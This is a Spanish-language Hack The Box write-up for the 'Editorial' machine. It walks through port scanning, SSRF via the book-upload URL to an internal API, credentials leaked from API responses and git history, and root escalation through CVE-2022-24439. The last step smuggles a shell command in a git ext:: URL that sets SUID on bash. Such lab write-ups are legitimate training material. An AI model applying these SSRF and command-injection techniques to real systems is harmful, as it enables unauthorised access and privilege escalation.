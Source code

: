 ```yaml
---
title: Editorial - Hack The Box
date: 2024-10-04
description: Maquina Editorial (Easy) de Hack The Box.
categories:
    - Writeups
    - HTB
tags:
    - Linux
    - HTB
    - CTF
    - Easy
    - Seasonal
media_subpath: /assets/img/commons/editorial/
image: editorial.png
---
```


## Escaneo

```bash
nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.10.11.20 -oG allPorts
```

Puertos abiertos: 22 y 80

## Análisis

```bash
nmap -sCV -p22,80 10.10.11.20 -oN targeted

`22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

El puerto 80 da acceso a la web de http://editorial.htb

En la web no hay nada destacable a excepción del apartado "Publish with us" que lleva a http://editorial.htb/upload.

En upload, permite proveer libros a la web de dos formas: subiendo el fichero o a través de la url.

Al subir un fichero o facilitar una URL, devuelve la URL del fichero subido:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 02 Oct 2024 14:52:31 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51`

static/uploads/61089ce8-87f6-4a5f-83e6-1e21a65c3335`
```

## Explotación

Pasándole como URL la localhost y atacando los 65532 puertos se puede evaluar, viendo el tamaño del "`Content-Length`" si hay una respuesta distinta, lo que puede implicar que el puerto esté abierto y respondiendo solo a consultas internas.
A excepción del puerto 5000 con 51, todos los puertos restantes devuelven lenght 61.

Al hacer GET de la URL devuelta por el puerto 5000 se obtiene un json de parámetros de una API:

```json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}`
```

Una consulta POST contra "/api/latest/metadata/messages/authors" devuelve una URL que al hacerle GET devuelve un JSON con credenciales:

```json
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}`
```

>Username: dev  
>Password: dev080217_devAPI!@  

El usuario tiene acceso por SSH y al conectarse se obtiene la User Flag.

## Escalada

Listando los ficheros con permisos de root:

```bash
find / -perm -4000 -user root 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
```

Nada destacable.

En la carpeta home existe la carpeta `.git`
Con `git log` se ve un commit con la información:

```
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.`
```

Consultando los cambios de este commit con `git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` se extrae un usuario y contraseña de producción:

```bash
WARNING: terminal is not fully functional
Press RETURN to continue 
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest  regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
# -------------------------------
```

>Username: prod  
>Password: 080217_Producti0n_2023!@  

Accediendo a este usuario por SSH se observa que no tiene credenciales de root:
```bash
ssh prod@10.10.11.20
prod@editorial:~$ sudo su
Sorry, user prod is not allowed to execute '/usr/bin/su' as root on editorial.
```
Pero sí tiene permiso para ejecutar una aplicación en python3 con credenciales de root:
```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

```bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py 
```

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Esta aplicación es vulnerable a RCE segun el [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

Por lo que se modifica bash para permitir el escalado:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'

$ /bin/bash -p
bash-5.1# whoami
root
```

Como root se tiene acceso a la Root Flag.
